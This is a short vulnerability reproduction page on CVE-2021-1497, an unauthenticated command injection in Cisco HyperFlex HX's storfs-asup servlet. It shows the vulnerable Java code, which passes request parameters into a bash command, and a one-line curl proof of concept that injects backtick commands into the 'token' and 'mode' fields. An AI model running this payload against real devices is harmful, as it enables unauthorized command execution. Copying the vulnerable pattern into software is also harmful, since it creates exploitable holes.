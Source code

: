 # Cisco HyperFlex HX storfs-asup Remote Command Execution Vulnerability CVE-2021-1497

## Vulnerability Description

Cisco fixes two Unauth RCE and an arbitrary file upload in the HyperFlex HX data platform discovered by researchers Nikita Abramov and Mikhail Klyuchnikov

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cisco HyperFlex HX</span>

## Vulnerability reappears

Code with vulnerability

```java
 protected void processRequest(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
    String action = request.getParameter("action");
    if (action == null) {
      String msg = "Action for the servlet need be specified.";
      writeErrorResponse(response, msg);
      return;
    }
    try {
      String token = request.getParameter("token");
      StringBuilder cmd = new StringBuilder();
      cmd.append("exec /bin/storfs-asup ");
      cmd.append(token);
      String mode = request.getParameter("mode");
      cmd.append("  ");
      cmd.append(mode);
      cmd.append("  > /dev/null");
      logger.info("storfs-asup cmd to run : " + cmd);
      ProcessBuilder pb = new ProcessBuilder(new String[] { "/bin/bash", "-c", cmd.toString() });
      logger.info("Starting the storfs-asup now: ");
      long startTime = System.currentTimeMillis();
      Process p = pb.start();
      InputStream errStream = p.getErrorStream();
      String errMsg = FileUtils.readToString(errStream);
      int exitCode = p.waitFor();
      long timeTaken = System.currentTimeMillis() - startTime;
      logger.info("storfs-asup command completed in (" + timeTaken + " ) milliseconds, with exit code (" + exitCode + ") and error message: " + errMsg);
      errStream.close();
      OutputStream outStream = p.getOutputStream();
      outStream.flush();
      outStream.close();
      if (exitCode != 0)
        throw new Exception(errMsg);
    } catch (IOException ex) {
      logger.error("Failed to generate asup: " + ex);
    } catch (Exception ie) {
      logger.error("Failed to run the /bin/storfs-asup command.");
    } finally {
      logger.info("Done executing asup command. ");
    }
  }
```



POC is

```plain
curl -v https://xxx.xxx.xxx.xxx/storfs-asup -d 'action=&token=`id`&mode=`id`'
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/cisco-9.png)
